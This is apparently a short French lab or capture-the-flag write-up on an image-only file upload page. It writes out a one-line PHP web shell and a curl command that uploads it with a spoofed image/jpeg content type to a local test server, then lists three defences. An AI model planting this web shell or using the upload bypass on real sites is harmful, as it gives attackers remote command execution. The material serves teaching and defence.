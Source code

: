 home/ add image

## Comment ?

C'est une page pour upload un fichier mais cela n'accepte que les images.

1. On cree un fichier php pour exécuter des commandes 
```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

2. On upload le fichier en le faisant passer pour un fichier de type image/jpeg

curl -s -H "Content-Type: multipart/form-data" \
  -F Upload=Upload \
  -F "uploaded=@shell.php;type=image/jpeg" \
  "http://localhost:8080/index.php?page=upload"


## Comment éviter ? 

- Valider dans le back les fichiers uploadés.
- Limiter les extensions.
- Interdire l'exécution des fichiers uploadés.

